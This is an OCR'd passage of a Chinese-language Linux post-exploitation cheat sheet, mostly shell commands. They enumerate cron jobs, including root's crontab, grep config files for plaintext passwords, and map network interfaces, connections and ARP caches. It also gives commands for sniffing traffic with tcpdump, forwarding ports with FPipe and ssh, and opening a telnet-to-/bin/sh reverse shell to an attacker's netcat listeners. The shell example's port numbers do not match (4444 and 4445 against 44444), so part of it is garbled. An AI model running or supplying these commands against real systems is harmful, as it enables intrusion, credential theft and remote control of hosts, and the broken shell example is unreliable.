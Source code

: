 crontab -l
ls -alh /var/spool/cron
ls -al /etc/ | grep cron
ls -al /etc/cron*
cat /etc/cron*
cat /etc/at.allow
cat /etc/at.deny
cat /etc/cron.allow
cat /etc/cron.deny
cat /etc/crontab
cat /etc/anacrontab
cat /var/spool/cron/crontabs/root
是否有纯文本用户名和/或密码？

检查Web服务器连接到数据库的文件（config.php或类似文件）
检查数据库以获取可能被重用的管理员密码
检查弱密码
grep -i user [filename]
grep -i pass [filename]
grep -C 5 "password" [filename]
find . -name "*.php" -print0 | xargs -0 grep -i -n "var $password"
通讯与网络
系统具有哪些NIC？它是否连接到另一个网络？

/sbin/ifconfig -a cat /etc/network/interfaces cat /etc/sysconfig/network
什么是网络配置设置？我们可以找到关于该网络的哪些信息？DHCP服务器？DNS服务器？网关？

cat /etc/resolv.conf cat /etc/sysconfig/network cat /etc/networks iptables -L hostname dnsdomainname
其他哪些用户和主机正在与系统通信？

在这种情况下，用户正在运行某些只能从该主机获得的服务。您无法从外部连接到服务。它可能是开发服务器，数据库或其他任何东西。这些服务可能以root用户身份运行，或者其中可能存在漏洞。由于开发人员或用户可能在考虑“由于只有特定用户可以访问它，因此我们不需要花费那么多的安全性”，因此它们可能更加脆弱。

检查netstat并将其与您从外部进行的nmap扫描进行比较。您是否能从内部找到更多可用的服务？

# Linuxnetstat -anlpnetstat -ano  lsof -i lsof -i :80 grep 80 /etc/services netstat -antup netstat -antpx netstat -tulpn chkconfig --list chkconfig --list | grep 3:on last w
缓存了什么？IP和/或mac地址

arp -e route /sbin/route -nee
数据包嗅探是否可能？可以看到什么？

tcpdump tcp dst 192.168.1.7 80 and tcp dst 10.5.5.252 21
注意：tcpdump tcp dst [ip] [端口]和tcp dst [ip] [端口]

我们有shell吗？
nc -lvp 4444 # Attacker. Input (Commands)
nc -lvp 4445 # Attacker. Ouput (Results) telnet [atackers ip] 44444 | /bin/sh | [local ip] 44445
是否可以进行端口转发？重定向流量并与之交互
注意：FPipe.exe -l [本地端口] -r [远程端口] -s [本地端口] [本地IP]

FPipe.exe -l 80 -r 80 -s 80 192.168.1.7
注意：ssh-[L / R] [本地端口]：[远程IP]：[远程端口] [本地用户] @ [本地IP]
